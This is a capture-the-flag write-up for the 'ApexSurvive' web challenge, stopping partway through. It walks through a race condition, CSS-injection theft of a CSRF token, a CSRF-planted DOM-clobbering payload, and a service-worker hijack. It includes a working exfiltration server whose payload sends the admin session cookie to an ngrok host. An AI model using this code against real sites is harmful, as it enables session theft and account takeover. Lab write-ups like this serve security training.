    	<font size="10">ApexSurvive</font>

​	    Prepared By: Xclow3n

​	    Challenge Author(s): Xclow3n

​	    Difficulty: <font color=red>Insane</font>

​	    Classification: Official


### Description:

"In a dystopian future, a group of Maze Runners faces a deadly labyrinth. To navigate it, they need vital intel on maze shifts and hidden passages.
Your mission: hack into ApexSurvive, the black-market hub for survival gear, to obtain the key information. The Maze Runners' freedom depends on your skills.
Time to infiltrate and hack the maze's lifeline. Good luck, hacker."

### Objective

Exploit race condition in email verification and get access to an internal user, perform CSS Injection to leak CSRF token, then perform CSRF to exploit self HTML injection, Hijack the service worker using dom clobbering and steal the cookies, once get admin perform PDF arbitrary file write and overwrite `uwsgi.ini` to get RCE.

## Application Overview

Visiting the main page provides the challenge info:



According to this info page, we are provided with an email inbox, visiting `/email/` shows us our email inbox:


Now, visiting `/challenge/` shows us a login page:



After registering and verifying our email address, we get access to the `/home/` route



We can `View` these products and also report an item:



Thats all the functionality accessible to normal user:

### Race Condition

Taking a look at `Email Verification` functionality:

```python
@api.route('/sendVerification', methods=['GET'])
@isAuthenticated
@sanitizeInput
def sendVerification(decodedToken):
    user = getUser(decodedToken.get('id'))

    if user['isConfirmed'] == 'unverified':
        if checkEmail(user['unconfirmedEmail']):
            sendEmail(decodedToken.get('id'), user['unconfirmedEmail'])
            return response('Verification link sent!')
        else:
            return response('Invalid Email')
    
    return response('User already verified!')
```

So, it gets the user information from database and if `isConfirmed` is set to `unverified` it uses the `sendEmail` function.

```python
def sendEmail(userId, to):
    token = getToken(userId)
    data = generateTemplate(token['confirmToken'], token['unconfirmedEmail'])
    
    msg = Message(
        'Account Verification',
        recipients=[to],
        body=data,
        sender="no-reply@apexsurvive.htb",
    )
    mail.send(msg)

def generateTemplate(token, email):
    return render_template_string('hello {{email}}, Please make request to this endpoint "/challenge/verify?token={{ token }}" to verify your email.', token=token, email=email)

```

The `sendMail` function gets the `confirmation token` for the user, generates the content of the email, and then sends the email. **This specific implementation looks secure**, But the application also sends email verification when a user updates his/her email.

```python
@api.route('/profile', methods=['POST'])
@isAuthenticated
@antiCSRF
@sanitizeInput
def updateUser(decodedToken):
    email = request.form.get('email')
    fullName = request.form.get('fullName')
    username = request.form.get('username')

    if not email or not fullName or not username:
        return response('All fields are required!'), 401

    try:
        result = updateProfile(decodedToken.get('id'), email, fullName, username)
    except Exception as e:
        return response('Why are you trying to break it? Something went wrong!')
    
    if result:
        if result == 'email changed':
            sendEmail(decodedToken.get('id'), email)
        return response('Profile updated!')
    
    return response('Email already in used!')
```

There is an issue with this implementation:

- The application gets the confirmation token after updating the profile in a different function and does not use the updated email from the database
- So let's say an attacker updates his profile and quickly updates his profile again before the application sends the verification

We can use the following Python script to send web requests parallel

```python
import asyncio
import httpx
import re
import requests

url = 'https://127.0.0.1:1337'
cookies = {"session": "[ADD YOUR SESSION COOKIE]"}
antiCSRFToken = "[ADD YOUR SESSION CSRF TOKEN]"

async def changeProfile(client, data):
    resp = await client.post(f'{url}/challenge/api/profile', cookies=cookies, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    return resp.text

async def main():
    async with httpx.AsyncClient(verify=False, http2=True) as client:
        tasks = []
        for i in range(2):
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@apexsurvive.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@email.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))
            tasks.append(asyncio.ensure_future(changeProfile(client, data=f"email=test@apexsurvive.htb&username=test&fullName=test&antiCSRFToken={antiCSRFToken}")))

        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)

# Perform Race condition
asyncio.run(main())

```

After running the script and visiting our email inbox.



We can see the email is supposed to be for `test@email.htb` but in the content it says `test@apexsurvive.htb`.

After verifying the email, we can see we have access to new functionality.



Now we can add items.

### Data exflitration using CSS Injection

Taking a look at `templates/product.html` we find an interesting piece of code.

```html
<script>
    let note = `{{ product.note | safe }}`;
    const clean = DOMPurify.sanitize(note, {FORBID_ATTR: ['id', 'style'], USE_PROFILES: {html:true}});
    document.getElementById('note').innerHTML += clean;
</script>
```

The `{{ product.note | safe }}` syntax is part of `jinja2` template engine and  `product.note` is variable and `safe` indicates that the content is safe to render without escaping. The  DOMPurify library is used to sanitize the note by removing potentially harmful elements and attributes. The result is then added to the inner  HTML of an element with the ID 'note'.



This is done so, that the admin can add products with a user manual easily, as each product user manual will be different in length and number of images, so the ability to directly add HTML makes it easier. The code looks secure to XSS but is vulnerable to `CSS Injection`, as `DOMPurify` under this profile allows `style` tags

```js
DOMPurify.sanitize(note, {FORBID_ATTR: ['id', 'style'], USE_PROFILES: {html:true}});
```

The application also have a report endpoint 

```python
@api.route('/report', methods=['POST'])
@isAuthenticated
@isVerified
@antiCSRF
@sanitizeInput
def reportProduct(decodedToken):
    productID = request.form.get('id', '')
   
    if not productID:
        return response('All fields are required!'), 401
    
    adminUser = getUser('1')

    params = {'productID': productID, 'email': adminUser['email'], 'password': adminUser['password']}

    requests.get('http://127.0.0.1:8082/visit', params=params)

    return response('Report submitted! Our team will review it')
```

Looking at `bot/app.py`, It uses selenium to run the chrome bot

``` python
def bot(productID, email, password):
    chrome_options = Options()

    prefs = {
    "download.prompt_for_download": True,
    "download.default_directory": "/dev/null"
    }

    chrome_options.add_experimental_option(
        "prefs", prefs
    )
    chrome_options.add_argument('headless')
    chrome_options.add_argument('no-sandbox')
    chrome_options.add_argument('ignore-certificate-errors')
    chrome_options.add_argument('disable-dev-shm-usage')
    chrome_options.add_argument('disable-infobars')
    chrome_options.add_argument('disable-background-networking')
    chrome_options.add_argument('disable-default-apps')
    chrome_options.add_argument('disable-extensions')
    chrome_options.add_argument('disable-gpu')
    chrome_options.add_argument('disable-sync')
    chrome_options.add_argument('disable-translate')
    chrome_options.add_argument('hide-scrollbars')
    chrome_options.add_argument('metrics-recording-only')
    chrome_options.add_argument('no-first-run')
    chrome_options.add_argument('safebrowsing-disable-auto-update')
    chrome_options.add_argument('media-cache-size=1')
    chrome_options.add_argument('disk-cache-size=1')
    chrome_options.add_argument('disable-setuid-sandbox')
    chrome_options.add_argument('--js-flags=--noexpose_wasm,--jitless')

    client = webdriver.Chrome(options=chrome_options)

    client.get(f"https://127.0.0.1:1337/challenge/")

    time.sleep(3)
    client.find_element(By.ID, "email").send_keys(email)
    client.find_element(By.ID, "password").send_keys(password)
    client.execute_script("document.getElementById('login-btn').click()")

    time.sleep(3)
    client.get(f"https://127.0.0.1:1337/challenge/home")
    time.sleep(3)
    client.get(f"https://127.0.0.1:1337/challenge/product/{productID}")
    time.sleep(120)

    client.quit()
```

It first logs in as an admin and then visits the reported product, it simulates an `admin` user viewing the product.

### Service Worker Hijacking & CSRF

In the `Dockerfile` it uses `FROM alpine:3.14.1` alpine version `3.14.1`, let's see what version of Chrome the challenge is using, we can check  it by getting a shell on the container
 



Moving on, let's see what we can achieve with this `CSS Injection`. In `templates/_navbar.html` we found this piece of code 

```html
<div class="p-2">
    <h6>User Profile</h6>
    <ul>
        <li><a href="/challenge/settings">Account Settings ({{ user['username'] | safe }})</a></li>
        <li><a href="#"></a>Transaction History</a></li>
		<li><a href="#">Cart</a></li>
    </ul>
</div>
```

We can achieve XSS if we somehow update the admin's username, but the application is using `CSRF` tokens

```python	
def antiCSRF(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        decodedToken = kwargs.get('decodedToken')

        if request.form.get('antiCSRFToken') != decodedToken.get('antiCSRFToken'):
            return response('CSRF Detected! hold your horses you punk!'), 401
        
        return f(*args, **kwargs)
        
    return decorator
```

We can use CSS Injection to leak the CSRF Tokens. Looking at the login function defined in `blueprints/api.py`

```python
token = createJWT(user['id'])
res = response('Logged in successfully!')
res.status_code = 200
res.set_cookie('session', token, expires=datetime.datetime.utcnow() + datetime.timedelta(minutes=360), httponly=False, samesite='Strict')
return res
```

The application is using `Strict` same-site cookies, which means the browser will not send the cookie in `GET` and `POST` request that comes from different origins.

Take a look at `templates/_layout.html`.
```html
<script>

  $(window).on("load", function () {
      if ('serviceWorker' in navigator) {
          let host = $('#serviceWorkerHost').text();
          let version = $('#serviceWorkerVersion').text();

          navigator.serviceWorker.register(`/static/js/sw.js?host=${host}&version=${version}`, { scope: '/challenge/' })
              .then(registration => {
                  console.log('Service Worker registered:', registration);
              })
              .catch(error => {
                  console.log('Service Worker registration failed:', error);
              });
      }

  });
</script>

<div id="serviceWorkerHost" style="display: none;">https://storage.googleapis.com</div>
<div id="serviceWorkerVersion" style="display: none;">6.5.3</div>
```

The application is registering service worker, taking a look at `sw.js`

```js
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
let version = searchParams.get('version');

importScripts(`${host}/workbox-cdn/releases/${version}/workbox-sw.js`)

workbox.routing.registerRoute(
    ({ request }) => request.destination === 'image',
    new workbox.strategies.CacheFirst()
);

workbox.routing.setDefaultHandler(
    new workbox.strategies.NetworkOnly()
);

workbox.routing.registerRoute(
    ({ url }) => url.pathname == '/challenge/api/profile',
    new workbox.strategies.NetworkOnly(
        { networkTimeoutSeconds: 600 }
    ),
    'POST'
);
```

This service worker code is used to set up caching strategies for different routes. It utilizes the Workbox library, commonly used for service worker-related tasks.

1. **URL Parameters Parsing:**
   - It starts by parsing the URL parameters of the current location.

2. **Dynamic Import of Workbox Script:**
   - It dynamically imports the Workbox script based on the 'host' and 'version' parameters from the URL.

3. **Caching Strategies:**
   - It registers a caching strategy for images using a CacheFirst approach.
   - Sets a default network-only strategy for routes not explicitly defined.

4. **Custom Route Handling:**
   - Registers a custom route handling for a specific API endpoint (`/challenge/api/profile`) using a NetworkOnly strategy with a specified network timeout of 600 seconds for POST requests.

This code configures a service worker to cache images using a CacheFirst strategy, sets a default network-only strategy for other routes, and customizes the caching strategy for a specific API endpoint. The 'host' and 'version' parameters in the URL are used to dynamically import the Workbox script.

The implementation is vulnerable to `Service Worker Hijacking using dom clobbering`, So we can hijack the service worker and read the cookie if we can perform CSRF and update the admin username. 

The important thing to note here is that before `Chrome 97` service workers did not follow the `SameSite` rules, so it means even if the cookie is set to `Strict` we can still perform CSRF

Now another problem arises every time the bot logs in it gets a new CSRF token, so we have to perform CSS Injection and CSRF in one go

We can use this [tool](https://github.com/hackvertor/blind-css-exfiltration) but it will not work in `Chromium 93.0.4577.82` as that version of Chrome does not have the `html:has` selector, we have to update it and we can use the following version:

```js
const connect = require('connect');
const http = require('http');
const url = require('url');
const port = 5001;

const HOSTNAME = "https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app";
const ELEMENTS = ["input"];
const ATTRIBUTES = { __proto__: null, "input": ["value"] };
const MAX_ELEMENTS = 20;
const MAX_VALUE = 50;
const WAIT_TIME_MS = 2000;
const MAX_SESSION_AMOUNT = 10000;
const SHOW_RESULTS_IN_BROWSER = false;
const SHOW_RESULTS_IN_CONSOLE = true;

const LOWER_LETTERS = "abcdefghijklmnopqrstuvwxyz";
const UPPER_LETTERS = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
const NUMBERS = "0123456789";
const SPACE = ' ';
const SYMBOLS = "-";
const CHARS = (LOWER_LETTERS + NUMBERS + SYMBOLS).split('');

var session = new Map();

const app = connect();
const compression = require('compression');
app.use(compression());

app.use('/workbox-cdn/releases/6.5.3/workbox-sw.js', function (request, response) {
    let payload = `
    importScripts(
        'https://storage.googleapis.com/workbox-cdn/releases/6.5.3/workbox-sw.js'
    );
    
    self.cookieStore.get('session')
    .then((cook) => {
        fetch('https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app/cookie?xx='+ cook.value)
    });
    `;
    response.writeHead(200, { 'Content-Type': 'text/javascript' });
    response.write(payload)
    response.end()
});

app.use('/cookie', function(request, response) {
    const headers = {
        'Access-Control-Allow-Origin': '*', /* @dev First, read about security */
        'Access-Control-Allow-Methods': 'OPTIONS, POST, GET',
        'Access-Control-Max-Age': 2592000
        }

        if (request.method === 'OPTIONS') {
            response.writeHead(204, headers);
            response.end();
            return;
        }

        if (['GET', 'POST'].indexOf(request.method) > -1) {
            console.log(request.url);
            response.writeHead(200, headers);
            response.end('Hello World');
            return;
        }
})


app.use('/start', function (request, response) {
    if (session.size > MAX_SESSION_AMOUNT) {
        deleteOldSessions(Math.floor(MAX_SESSION_AMOUNT / 2));
    }
    const ip = getIP(request);
    const settings = new Map();
    settings.set("init", true);
    settings.set('n', 0);
    settings.set('tokens', []);
    settings.set('prefixes', new Map());
    settings.set('foundToken', false);
    settings.set('currentElementPos', 0);
    session.set(ip, settings);
    genResponse(request, response, 0);
});

app.use('/l', function (request, response) {
    let req = url.parse(request.url, url);
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }
    const n = session.get(ip).get('n');
    const prefixes = session.get(ip).get('prefixes');
    const currentElementPos = session.get(ip).get('currentElementPos');
    response.end();
    for (let element of ELEMENTS) {
        for (let attribute of ATTRIBUTES[element]) {
            const elementNumber = int(req.query.e, MAX_ELEMENTS);
            if (elementNumber > MAX_ELEMENTS) {
                return;
            }
            const prefixKey = getPrefix(element, attribute, elementNumber);
            const prefixQueryValue = req.query[prefixKey];
            if (typeof prefixQueryValue === 'undefined') {
                continue;
            }
            if (prefixQueryValue.length > MAX_VALUE) {
                continue;
            }
            if (n === int(req.query.n, MAX_VALUE) && currentElementPos === elementNumber) {
                if (!prefixes.has(prefixKey)) {
                    prefixes.set(prefixKey, '');
                }
                if (prefixQueryValue.length > prefixes.get(prefixKey).length) {
                    console.log(prefixQueryValue)
                    if (prefixQueryValue.length == 36) {
                        io.emit('token', { token: prefixQueryValue});
                    }
                    prefixes.set(prefixKey, String(prefixQueryValue));
                    session.get(ip).set('foundToken', true);
                }
            }
        }
    }
});

app.use('/next', function (request, response) {
    setTimeout(x => {
        const ip = getIP(request);
        if (!hasSession(ip)) {
            response.end();
            return;
        }
        let foundToken = session.get(ip).get('foundToken');
        if (!foundToken) {
            checkCompleted(request, response);
        } else {
            session.get(ip).set('foundToken', false);
            let n = session.get(ip).get('n');
            n++;
            session.get(ip).set('n', n);
            genResponse(request, response, session.get(ip).get('currentElementPos'));
        }
    }, WAIT_TIME_MS);
});

app.use('/c', function (request, response) {
    response.end();
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }
    const tokens = session.get(ip).get('tokens');
    let req = url.parse(request.url, url);
    let attribute = String(req.query.a);
    let tag = String(req.query.t);
    let value = String(req.query.v);

    if (value.length > MAX_VALUE) {
        return;
    }

    if (!ELEMENTS.includes(tag)) {
        return;
    }

    if (!ATTRIBUTES[tag].includes(attribute)) {
        return;
    }

    if (!hasToken(tokens, { tag, attribute, value })) {
        tokens.push({ tag, attribute, value });
        session.get(ip).set('foundToken', true);
    }
});

const genResponse = (request, response, elementNumber) => {
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }

    const n = session.get(ip).get('n');
    const prefixes = session.get(ip).get('prefixes');
    const tokens = session.get(ip).get('tokens');
    let css = '@import url(' + HOSTNAME + '/next?' + Date.now() + ');input{display: block !important;}';
    let properties = [];
    for (let element of ELEMENTS) {
        for (let attribute of ATTRIBUTES[element]) {
            const variablePrefix = '--' + getPrefix(element, attribute, elementNumber) + '-' + n;
            const prefixKey = getPrefix(element, attribute, elementNumber);
            if (!prefixes.has(prefixKey)) {
                prefixes.set(prefixKey, '');
            }
            const prefix = prefixes.get(prefixKey);
            css += CHARS.map(e => (element + '[' + attribute + '^="' + escapeCSS(prefix + e) + '"]' + generateNotSelectors(tokens, element, attribute) +  '{' + variablePrefix + 's:url(' + HOSTNAME + '/l?e=' + (elementNumber) + '&n=' + n + '&p_' + element[0] + attribute[0] + elementNumber + '=' + encodeURIComponent(prefix + e) + ');}')).join('');
            css += element + '[' + attribute + '="' + escapeCSS(prefix) + '"] {' + variablePrefix + 'f:url(' + HOSTNAME + '/c?t=' + element + '&a=' + attribute + '&e=' + elementNumber + '&v=' + encodeURIComponent(prefix) + ')!important;}';
        }
    }
    if (n === 0 && elementNumber === 0) {
        for (let element of ELEMENTS) {
            for (let attribute of ATTRIBUTES[element]) {
                for (let i = 0; i < MAX_ELEMENTS; i++) {
                    for (let j = 0; j < MAX_VALUE; j++) {
                        const variablePrefix = '--' + getPrefix(element, attribute, i) + '-' + j;
                        properties.push('var(' + variablePrefix + 's,none)');
                        properties.push('var(' + variablePrefix + 'f,none)');
                    }
                }
            }
        }
        css += `input{background:${properties.join(',')};}`;
    }
    if (SHOW_RESULTS_IN_BROWSER) {
        css += htmlBeforeCSS('Exfiltrating...', false);
    }
    response.writeHead(200, { 'Content-Type': 'text/css' });
    response.write(css);
    response.end();
};

app.use('/submit', (request, response) => {
    console.log(request);
    response.writeHead(200, { 'Content-Type': 'text/html' });
    response.write('OK')
    response.end()
});


app.use('/', function (request, response) {
    let html = `
    
    <html>
    <body>
        <form action="https://127.0.0.1:1337/challenge/api/profile" method="POST">
            <input type="hidden" name="email" value="xclow3n@apexsurvive.htb" />
            <input type="hidden" name="fullName" value="fuck" />
            <input type="hidden" name="username" value="<a href='#' id='serviceWorkerHost'>https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app</a>" />
            <input type="hidden" id="anticsrf" name="antiCSRFToken" value="" />
        </form>
    </body>
    </html>
    <script src="/socket.io/socket.io.js"></script>
    <script>
    var socket = io();

    let inputF = document.getElementById("anticsrf");

    socket.on('token', (msg) => {
        console.log(msg);
        inputF.value = msg.token;
        document.forms[0].submit();
    });

    </script>

    <script>
    window.open('https://127.0.0.1:1337/challenge/product/7', '_blank');
    </script>
    `;
    response.writeHead(200, { 'Content-Type': 'text/html' });
    response.write(html)
    response.end()
});


const server = http.createServer(app)
const { Server } = require("socket.io");
const io = new Server(server);

io.on('connection', (socket) => {
    console.log('a user connected');
});

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
});


function escapeCSS(str) {
    return str.replace(/(["\\])/g, '\\$1');
}

function hasToken(tokens, newToken) {
    if (!tokens.length) {
        return false;
    }
    let { tag, attribute, value } = newToken;
    return tokens.find(tokenObject => tag === tokenObject.tag && attribute === tokenObject.attribute && value === tokenObject.value);
}

function checkCompleted(request, response) {
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }
    let currentElementPos = session.get(ip).get('currentElementPos');
    if (currentElementPos + 1 < MAX_ELEMENTS) {
        session.get(ip).set('n', 0);
        session.get(ip).set('currentElementPos', ++currentElementPos);
        genResponse(request, response, currentElementPos);
    } else {
        completed(request, response);
    }
}

function destroySession(request) {
    const ip = getIP(request);
    session.delete(ip);
}

function htmlBeforeCSS(text, important) {
    return `html:before {
        position:fixed;
        color: #155724;
        background-color: #d4edda;
        border-bottom: 5px solid #c3e6cb;
        padding: 0.75rem 1.25rem;
        font-size: 40px;
        padding: 5px;
        height:100px;
        width:100%;
        content: "${text}"${important ? "!important" : ""};
        font-family:Arial;
        box-sizing: border-box;
        z-index: 2147483647;
        display: flex;
        align-items: center;
    }`;
}

function completed(request, response) {
    const ip = getIP(request);
    const tokens = session.get(ip).get('tokens', true);

    for (let tokenObject of tokens) {
        let { tag, attribute, value } = tokenObject;
        io.emit('token', { token: escapeCSS(value)}); 
        
    }
    if (SHOW_RESULTS_IN_CONSOLE) {
        console.log("Completed.", tokens);
    }
    if (!SHOW_RESULTS_IN_BROWSER) {
        response.end();
        destroySession(request);
        return;
    }
    let extractedValues = '';
    for (let tokenObject of tokens) {
        let { tag, attribute, value } = tokenObject;
        extractedValues += `\\0aTag:\\09\\09\\09\\09 ${escapeCSS(tag)}\\0a Attribute:\\09\\09\\09 ${escapeCSS(attribute)}\\0a Value:\\09\\09\\09 ${escapeCSS(value)}\\0a`;
        io.emit('token', { token: escapeCSS(value)}); 
        
    }

    response.writeHead(200, { 'Content-Type': 'text/css' });
    response.write(`
        ${htmlBeforeCSS("CSS exfiltration complete", true)}
        html:after{
            color: #155724;
